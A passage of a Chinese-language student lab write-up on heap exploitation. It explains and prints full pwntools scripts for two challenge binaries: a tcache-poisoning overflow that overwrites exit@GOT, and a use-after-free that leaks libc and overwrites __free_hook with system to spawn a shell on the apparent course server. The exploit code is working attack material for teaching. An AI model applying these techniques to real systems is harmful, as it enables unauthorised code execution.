​	相比原程序，uaf.c中没有对释放的内存的指针进行置空操作，也就是说在内存被释放之后，仍可以利用原来的指针对该空间的内存进行操作。在此基础上，我们可以在chunk被释放后，利用`user_edit()`函数进行对该空间的fd指针和bk指针进行篡改，进而实现对任意内存空间的读写，详细攻击代码见【堆上漏洞的利用】模块。

## 堆上漏洞的利用

#### Overflow

​	在攻击脚本中，首先申请了3个内存空间A、B、C，然后释放了C和B。这时，存在`tcache->B->C`的分布，又根据【堆管理器基础】模块中对于这个程序堆内存的分析，B chunk的实际位置应位于A chunk的后面。在此基础上，对A chunk进行overflow的操作，构造`payload=b'A'*0x50+p64(elf.got['exit'])`，利用`user_edit()`将`payload`传入`A->intro`，这时，溢出的`exit()`地址覆盖了B chunk的fd指针。此时，再申请内存空间D，这时tcache的指针会被修改到B chunk的fd指针，即`tcache->exit@GOT`。然后再申请内存空间E，并将第一个参数即`name`设为`elf.symbols['backdoor']`，内存空间的实际位置位于exit的got表位置，于是exit的got表被修改为了`backdoor()`函数的地址。最后，输入一个不存在的指令符，使程序触发`exit()`，然后就成功触发了后门，执行了`system("/bin/sh")`，完成了攻击。

```python
from pwn import *
from typing import Tuple
import re

def handle_add(name: bytes, password: bytes, intro: bytes, motto: bytes) -> int:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"1")
    p.recvuntil(b"name > ")
    p.sendline(name)
    p.recvuntil(b"password > ")
    p.sendline(password)
    p.recvuntil(b"introduction > ")
    p.sendline(intro)
    p.recvuntil(b"motto > ")
    p.sendline(motto)
    p.recvuntil(b"at index ", drop=True)
    data = p.recvline().strip()
    return int(data)

def handle_del(index: int, password: bytes) -> None:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"2")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)
    return

def handle_show(index: int, password: bytes) -> Tuple[bytes, bytes, bytes]:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"3")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)
    p.recvuntil(b"user name: ")
    recv_name = p.recvline().strip()
    p.recvuntil(b"user motto: ")
    recv_motto = p.recvline().strip()
    p.recvuntil(b"user intro: ")
    recv_intro = p.recvline().strip()
    return recv_name, recv_motto, recv_intro

def handle_edit(
    index: int, password: bytes, edit_name: bytes, edit_intro: bytes, edit_motto: bytes
):
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"4")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)

    p.recvuntil(b"new name > ")
    p.sendline(edit_name)
    p.recvuntil(b"new introduction > ")
    p.sendline(edit_intro)
    p.recvuntil(b"new motto > ")
    p.sendline(edit_motto)
    return

p = remote('8.154.20.109',10401)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
# p = process('./overflow')  
elf = ELF("./overflow")

A=handle_add(b'AAA',b'AAA',b'AAA',b'AAA')
B=handle_add(b'BBB',b'BBB',b'BBB',b'BBB')
C=handle_add(b'CCC',b'CCC',b'CCC',b'CCC')
handle_del(C,b'CCC')
handle_del(B,b'BBB')
payload=b'A'*0x50+p64(elf.got['exit'])
handle_edit(A,b'AAA',b'AAA',payload,b'AAA')
D=handle_add(b'DDD',b'DDD',b'DDD',b'DDD')
E=handle_add(p64(elf.symbols['backdoor']),b'EEE',b'EEE',b'EEE')
p.recvuntil(b"[ 5 ] leave\n> ")
p.sendline(b"6")
p.interactive()
```

 

#### Uaf

​	本题的程序使用了RELRO 保护，无法破坏 GOT 表内容。但是观察到程序中的`free()`函数的传入参数可以被控制，那么就可以通过泄露libc库中的`__free_hook`的地址，然后把该地址的内容修改为`system()`函数的地址，然后通过控制堆传入`\bin\sh`，即可完成攻击。

​	对于这个程序的攻击，首先需要获取libc库的基地址。在攻击脚本中，先申请了9个内存空间，然后释放掉前八个，这时先被释放的7个chunk将会填满tcache，于是最后释放的A chunk就被放入了unsorted bin中，此时A chunk的fd指针指向libc库中的`__malloc_hook`地址存在常数偏移的地址。由于存在uaf漏洞，可以对已经释放的A chunk调用`user_show()`，就可以泄露出这个相关地址。然后通过gdb的调试，得到这个offset为0x70，于是通过`lbase=leak_addr-libc.symbols['__malloc_hook']-0x70`就可以获取libc库的基地址，进而获取`__free_hook`和`system`的地址。

​	然后，再利用uaf漏洞对tcache上的第一个free chunk进行修改，将fd指针位置修改为`free_hook_addr`，然后申请内存空间A，同时将`A->intro`修改为`/bin/sh\0`，以便后续调用。此时，tcache的指针指向了`free_hook_addr`，于是再申请内存空间B，并传入`system_addr`，即可将`__free_hook`的指针篡改至`system()`函数。最后对A调用`user_del()`，即可触发`free(info->intro)`，此函数经篡改实际为`system("/bin/sh")`，完成攻击。

```python
from pwn import *
from typing import Tuple
import re

def handle_add(name: bytes, password: bytes, introsize: int, intro: bytes, motto: bytes) -> int:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"1")
    p.recvuntil(b"name > ")
    p.sendline(name)
    p.recvuntil(b"password > ")
    p.sendline(password)
    p.recvuntil(b"introduction size > ")
    p.sendline(str(introsize).encode())
    p.recvuntil(b"introduction > ")
    p.sendline(intro)
    p.recvuntil(b"motto > ")
    p.sendline(motto)
    p.recvuntil(b"at index ", drop=True)
    data = p.recvline().strip()
    return int(data)

def handle_del(index: int, password: bytes) -> None:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"2")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)
    return

def handle_show(index: int, password: bytes) -> Tuple[bytes, bytes, bytes]:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"3")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())

    p.recvuntil(b"password > ")
    p.sendline(password)

    p.recvuntil(b"user name: ")
    recv_name = p.recvline().strip()

    p.recvuntil(b"user motto: ")
    recv_motto = p.recvline().strip()
    p.recvuntil(b"user intro: ")
    recv_intro = p.recvline().strip()
    return recv_name, recv_motto, recv_intro

def handle_edit(
    index: int, password: bytes, edit_name: bytes, edit_intro: bytes, edit_motto: bytes
):
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"4")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)
    p.recvuntil(b"new name > ")
    p.sendline(edit_name)
    p.recvuntil(b"new introduction > ")
    p.sendline(edit_intro)
    p.recvuntil(b"new motto > ")
    p.sendline(edit_motto)
    return


# p = process('./uaf')  
p = remote('8.154.20.109',10402)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
elf = ELF("./uaf")
libc = ELF('libc-2.31.so') 

bob_idx = handle_add(b"Bob", b"123456\0", 0x90,b"hello there, i am bob", b"try everything")
alice_idx = handle_add(b"Alice", b"654321\0",0x90, b"hi everyone, i am alice", b"eat more vegetables")
jimmy_idx = handle_add(b"Jimmy", b"abc321\0", 0x90,b"didotidido", b"<blank/>")
jack_idx = handle_add(b"Jack", b"p4ssw0rd\0",0x90, b"blablabla", b"...")
charles_idx = handle_add(b"Charles", b"aaabbb\0",0x90,b"Beautiful is better than ugly", b"<alert>")
mark_idx = handle_add(b"Mark", b"marknb11\0", 0x90,b"Explicit is better than implicit", b"watch out")
vincent_idx = handle_add(b"Vincent", b"m950524\0",0x90, b"my name is vincent! vincent", b"________")
A=handle_add(b'AAA',b'AAA\0',0x90,b'AAA',b'AAA')
B=handle_add(b'BBB',b'BBB\0',0x90,b'BBB',b'BBB')
handle_del(vincent_idx, b"m950524\0")
handle_del(mark_idx, b"marknb11\0")
handle_del(charles_idx, b"aaabbb\0")
handle_del(jack_idx, b"p4ssw0rd\0")
handle_del(jimmy_idx, b"abc321\0")
handle_del(alice_idx, b"654321\0")
handle_del(bob_idx, b"123456\0")
handle_del(A,b'AAA\0')
# context.log_level = 'DEBUG'
[name,motto,intro]=handle_show(A,b'AAA\0')

leak_addr=u64(intro[:8])
print(hex(leak_addr))

lbase=leak_addr-libc.symbols['__malloc_hook']-0x70
system_addr=lbase + libc.symbols['system']
free_hook_addr = lbase + libc.symbols['__free_hook']
print('system address: ',hex(system_addr))

handle_edit(bob_idx, b"123456\0", p64(free_hook_addr),b'AAA',b'AAA')

A = handle_add(b'AAA',b'AAA'+b'\0',0x40,b'/bin/sh\0',b'AAA')
B = handle_add(p64(system_addr),b'BBB\0',0x40,b'BBB',b'BBB')
handle_del(A,b'AAA'+b'\0')
p.interactive()
```

 
